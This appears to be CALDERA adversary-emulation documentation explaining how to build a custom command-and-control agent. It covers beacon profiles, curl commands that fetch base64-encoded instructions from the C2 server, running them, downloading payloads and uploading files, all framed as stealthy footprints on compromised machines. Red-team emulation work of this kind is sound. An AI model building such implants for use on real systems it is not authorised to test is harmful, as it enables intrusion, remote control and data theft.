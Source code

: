 # How to Build Agents

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, 54ndc47, is a representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. 

You can extend 54ndc47 by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Understanding contacts

Agents are processes which are deployed on compromised hosts and connect with the C2 server periodically for instructions.
An agent connects to the server through a *contact*, which is a specific connection point on the server.

Each contact is defined in an independent Python module and is registered with the contact_svc when the server starts.

There are currently several built-in contacts available: http, tcp, udp, websocket, gist (via Github), and dns. 

For additional stealth, supporting agents can use communication tunnels to tunnel built-in contacts like HTTP, TCP, and UDP. For more information on C2 communication tunneling, see the [C2 tunneling section](C2-Tunneling.md).

## Building an agent: HTTP contact

Start by getting a feel for the HTTP endpoint, which are located in the contacts/contact_http.py module.
```
POST  /beacon 
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

> If you don't include a platform and executors then the server will never provide instructions to the agent, as it 
won't know which ones are valid to send. 

* **server**: The location (IP or FQDN) of the C2 server  
* **platform**: The operating system
* **host**: The hostname of the machine
* **group**: Either red or blue. This determines if your agent will be used as a red or blue agent.
* **paw**: The current unique identifier for the agent, either initially generated by the agent itself or provided by the C2 on initial beacon.
* **username**: The username running the agent
* **architecture**: The architecture of the host
* **executors**: A list of executors allowed on the host
* **privilege**: The privilege level of the agent process, either User or Elevated
* **pid**: The process identifier of the agent
* **ppid**: The process identifier of the agent's parent process
* **location**: The location of the agent on disk
* **exe_name**: The name of the agent binary file
* **host_ip_addrs**: A list of valid IPv4 addresses on the host
* **proxy_receivers**: a dict (key: string, value: list of strings) that maps a peer-to-peer proxy protocol name to a list of addresses that the agent is listening on for peer-to-peer client requests.
* **deadman_enabled**: a boolean that tells the C2 server whether or not this agent supports deadman abilities. If this value is not provided, the server assumes that the agent does not support deadman abilities.
* **upstream_dest**: The "next hop" upstream destination address (e.g. IP or FQDN) that the agent uses to
reach the C2 server. If the agent is using peer-to-peer communication to reach the C2, this value will contain
the peer address rather than the C2 address.

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of seconds (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[...]"}
```

If you get a malformed base64 error, that means the operating system you are using is adding an empty space to the 
profile variable. You can prove this by 
```
echo $profile
```

To resolve this error, simply change the line to (note the only difference is '-w 0'):
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64 -w 0)
```

> The paw property returned back from the server represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Now it's time to execute the instructions. 

Looking at the previous response, you can see each instruction contains:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable
* **uploads**: A list of file names that the agent must upload to the C2 server after running the command.

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the response back to the /beacon endpoint. You should pause after running each instruction, using the sleep time provided inside the instruction.
```
data=$(echo '{"paw":"$paw","results":[{"id":$id, "output":$output, "status": $status, "pid":$pid}]}' | base64)
curl -s -X POST -d $data localhost:8888/beacon
sleep $instruction_sleep
```

The POST details inside the result are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part 4

Inside each instruction, there is an optional **uploads** property that contains a list of filenames to upload to the C2 after running the instruction and submitting the execution results. To implement this, add a file upload capability to your agent. If using the HTTP contact, the file upload should hit the `/file/upload` upload endpoint of the server.

### Part #5

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of seconds to allow a dead beacon before killing the agent. 

## Lateral Movement Tracking

Additionally, you may want to take advantage of CALDERA's lateral movement tracking capabilities. CALDERA's current 
implementation for tracking lateral movement depends on passing the ID of the Link spawning the agent as 
an argument to the agent's spawn command and upon the agent's check in, for this Link ID to be returned as part of the
agent's profile. The following section explains how lateral movement tracking has been enabled for the default agent,
54ndc47.  

### 54ndc47

An example 54ndc47 spawn command has been copied from the [Service Creation ability](https://github.com/mitre/stockpile/blob/master/data/abilities/execution/95727b87-175c-4a69-8c7a-a5d82746a753.yml)
and included below for reference:
```
C:\Users\Public\s4ndc4t.exe -server #{server} -originLinkID #{origin_link_id}
```
If the CALDERA server is running on `http://192.168.0.1:8888` and the ID of the Link with the spawn command is `cd63fdbb-0f3a-49ea-b4eb-306a3ff40f81`,
the populated command will appear as:
```
C:\Users\Public\s4ndc4t.exe -server http://192.168.0.1:8888 -originLinkID cd63fdbb-0f3a-49ea-b4eb-306a3ff40f81
```
The 54ndc47 agent stores the value of this global variable in its profile, which is then returned to the CALDERA server
upon first check-in as a key\value pair `origin_link_id : cd63fdbb-0f3a-49ea-b4eb-306a3ff40f81` in the JSON dictionary. The CALDERA server will 
automatically store this pair when creating the Agent object and use it when generating the Attack Path graph in the
Debrief plugin.

**NOTE: The `origin_link_id` key is optional and not required for the CALDERA server to register and use new agents as
 expected. It is only required to take advantage of the lateral movement tracking in the Debrief plugin.**  